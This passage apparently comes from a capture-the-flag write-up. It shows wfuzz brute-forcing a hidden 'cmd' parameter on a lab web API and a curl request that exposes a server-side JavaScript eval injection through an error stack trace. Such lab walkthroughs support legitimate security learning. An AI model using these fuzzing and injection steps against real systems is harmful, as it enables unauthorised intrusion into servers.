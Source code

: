 Interesting. There must be a missing parameter. Let's fuzz it:

~~~
kali@kali:/data/vpn$ wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hh=45 http://10.10.16.166/api/items?FUZZ=oops
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.16.166/api/items?FUZZ=oops
Total requests: 475254

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                             
=====================================================================

000002370:   500        10 L     64 W       1081 Ch     "cmd"

~~~

Indeed, our assumption was correct, and the URL takes a `cmd` parameter.

## Vulnerability

With this new statement, let's try to inject a command:

~~~
kali@kali:/data/GLITCH/files$ curl -X POST http://10.10.16.166/api/items?cmd=id
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: id is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
~~~
